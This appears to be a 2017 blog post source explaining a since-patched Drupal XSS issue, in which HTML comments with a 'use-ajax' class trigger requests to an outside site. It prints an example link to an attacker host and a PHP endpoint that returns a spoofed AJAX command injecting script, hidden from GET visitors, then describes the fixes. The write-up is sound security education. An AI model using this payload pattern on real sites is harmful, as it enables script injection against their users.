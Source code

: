 ```yaml
---
layout: post
title:  "Getting creative with Drupal XSS"
date:   2017-05-28 09:56:30 -0800
category: drupal
---
```

In the world of web security, cross-site scripting (XSS) vulnerabilities are
extremely common, and will continue to be a problem as web applications become
increasingly complex. According to a 2016 report by Bugcrowd, a popular bug
bounty site, __"XSS vulnerabilities account for 66% of valid submissions,
followed by 20% categorized as CSRF"__ ([source]). That same report goes into
some detail about the severity of XSS (page 23), which is worth reading to
understand the scope of this kind of attack.

Drupal developers are mostly protected from XSS by the HTML filtering system,
but custom code can still allow attacks using unconventional exploits.

For a simple web application, finding an XSS vulnerability may seem trivial.
Looking at online resources, you often find code snippets like this:

{% highlight php %}
<h2>Search results for "<?php echo $_GET['q']; ?>":</h2>
{% endhighlight %}

but now-a-days, finding an exploit this obvious is unlikely, unless you're
looking at something completely hand-built. Drupal 8 makes code like this
is even more unlikely, given that the templating system has moved to Twig,
which escapes output by default and does not allow arbitrary PHP statements.

So what kind of Drupal code can trigger XSS? Let's look at a practical example
based on [SA-CORE-2015-003], which was a security release I helped out on.

_Note: The following exploit has already been fixed, don't freak out!_

Drupal has an internal AJAX system that responds to events on HTML elements,
reaching out to a JSON endpoint to perform what's known as AJAX commands. An
example of this is the autocomplete element, which triggers AJAX requests as a
user types to determine autocomplete suggestions.

You can enhance your HTML elements with this behavior like so:

{% highlight javascript %}
Drupal.ajax({
  url: '/foo',
  event: 'click',
  element: $('#my-great-link'),
});
{% endhighlight %}

but to make things easier for developers, Drupal will automatically bind AJAX
behaviors to any element with the "use-ajax" class. This may not seem like a
big deal, but many Drupal sites allow users to input HTML, and classes are
often allowed in default text filters.

To re-cap, this is what we know at this point:

1. Drupal allows users to enter HTML by default in areas like comments
1. The XSS filtering in Drupal is really good, so assume we can't bypass it
1. The class attribute is allowed in the default text filter
1. The AJAX system automatically binds on elements with the "use-ajax" class

Knowing this, we can make a comment like this:

{% highlight html %}
<a href="http://mynastysite.com/xss.php" class="use-ajax">Click me!</a>
{% endhighlight %}

and know that when the link is clicked, a POST request is made to an arbitrary
URL, and Drupal will parse the response and process AJAX commands.

The xss.php script on our endpoint could look something like this:

{% highlight php %}
<?php

// Only display the spoof response if the method is POST, this way normal users
// (i.e. non-admins) will see a normal page.
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  // Allow any site to make a POST request here.
  header('Access-Control-Allow-Origin: *');
  // Form a bare-bones JSON response for Drupal.
  $foo = new stdClass();
  $foo->command = 'insert';
  $foo->data = '<script>alert("xss")</script>';
  $foo->method = 'append';
  $foo->selector = 'body';
  echo json_encode(array($foo));
}
// Display the normal page for GET requests.
else {
  echo "<h1>This is a normal site!</h1>";
}
{% endhighlight %}

Now when a user clicks our link, we can execute arbitrary Javascript in Drupal!

The Drupal security team has since improved the AJAX system by adding two
layers of defense:

1. When an AJAX-enabled element triggers its event (i.e. is clicked), Drupal
verifies that the URL is local before making the request (see [Drupal.url.isLocal]).
1. If a response does not contain a X-Drupal-Ajax-Token header, it is not
processed. This prevents users from making local requests to uploaded files (see [Drupal.Ajax.options.success]).

This has been fixed for about two years, but it's a great example of how
complex XSS vulnerabilities in Drupal can be.

My biggest takeaway from this is that _you don't need to bypass the XSS filter
to trigger XSS._ Get creative with your research, and don't hope to find
quick-win exploits in code like:

{% highlight twig %}
{% raw %}{{ twig_input | raw }}{% endraw %}
{% endhighlight %}

because it's unlikely that you'll get that lucky. 😁

[source]: https://pages.bugcrowd.com/hubfs/PDFs/state-of-bug-bounty-2016.pdf
[SA-CORE-2015-003]: https://www.drupal.org/SA-CORE-2015-003
[Drupal.url.isLocal]: http://cgit.drupalcode.org/drupal/tree/core/misc/drupal.js?id=d5d37e06490825d10c52545433773e22fe6b61fb#n146
[Drupal.Ajax.options.success]: http://cgit.drupalcode.org/drupal/tree/core/misc/ajax.js?id=d5d37e06490825d10c52545433773e22fe6b61fb#n220